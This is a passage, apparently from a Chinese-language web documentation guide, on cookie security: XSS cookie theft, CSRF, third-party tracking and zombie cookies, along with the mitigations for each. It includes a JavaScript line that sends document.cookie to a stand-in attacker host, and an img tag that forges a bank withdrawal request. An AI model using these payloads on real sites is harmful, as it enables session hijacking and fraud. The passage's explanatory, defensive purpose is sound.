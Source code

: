 因此, 如果 Web 应用的 Cookie 被窃取, 可能导致授权用户的会话受到攻击

常用的窃取 Cookie 的方法有利用社会工程学攻击和利用应用程序漏洞进行 XSS 攻击

```javascript
(new Image()).src = "http://www.evil-domain.com/steal-cookie.php?cookie=" + document.cookie;
```

`HttpOnly` 类型的 Cookie 用于阻止了 JavaScript 对其的访问性而能在一定程度上缓解此类攻击

### 跨站请求伪造

[维基百科](https://en.wikipedia.org/wiki/HTTP_cookie#Cross-site_request_forgery)已经给了一个比较好的 CSRF 例子

比如在不安全聊天室或论坛上的一张图片, 它实际上是一个给你银行服务器发送提现的请求: 

```html
<img src="http://bank.example.com/withdraw?account=bob&amount=1000000&for=mallory">
```

当你打开含有了这张图片的 HTML 页面时, 如果你之前已经登录了你的银行帐号并且 Cookie 仍然有效(还没有其它验证步骤), 你银行里的钱很可能会被自动转走

有一些方法可以阻止此类事件的发生: 

- 对用户输入进行过滤来阻止 XSS
- 任何敏感操作都需要确认
- 用于敏感信息的 Cookie 只能拥有较短的生命周期

## 跟踪和隐私

Cookie 与域关联

如果此域与您所在页面的域相同, 则该 cookie 称为第一方 cookie

如果域不同, 则它是第三方 cookie

当托管网页的服务器设置第一方 Cookie 时, 该页面可能包含存储在其他域中的服务器上的图像或其他组件(例如广告横幅), 这些图像或其他组件可能会设置第三方 Cookie

这些主要用于在网络上进行广告和跟踪, 例如, [types of cookies used by Google](https://policies.google.com/technologies/types)

第三方服务器可以基于同一浏览器在访问多个站点时发送给它的 cookie 来建立用户浏览历史和习惯的配置文件

Firefox 默认情况下会阻止已知包含跟踪器的第三方 cookie

第三方 cookie(或仅跟踪 cookie)也可能被其他浏览器设置或扩展程序阻止

阻止 Cookie 会导致某些第三方组件(例如社交媒体窗口小部件)无法正常运行

如果你没有公开你网站上第三方 Cookie 的使用情况, 当它们被发觉时用户对你的信任程度可能受到影响

一个较清晰的声明(比如在隐私策略里面提及)能够减少或消除这些负面影响

在某些国家已经开始对 Cookie 制订了相应的法规, 可以查看维基百科上的 [cookie statement](https://wikimediafoundation.org/wiki/Cookie_statement)

> 服务器可以(也应该)设置 Cookie SameSite 属性, 以指定 Cookie 是否可以发送到第三方站点

Cookie 的一个极端使用例子是僵尸 Cookie(或称之为“删不掉的 Cookie”), 这类 Cookie 较难以删除, 甚至删除之后会自动重建

这些技术违反了用户隐私和用户控制的原则, 可能违反了数据隐私法规, 并可能使使用它们的网站承担法律责任

它们一般是使用 Web storage API, Flash 本地共享对象或者其他技术手段来达到的

相关内容可以看: 

- [Evercookie by Samy Kamkar](https://github.com/samyk/evercookie)
- [在维基百科上查看僵尸 Cookie](https://en.wikipedia.org/wiki/Zombie_cookie)

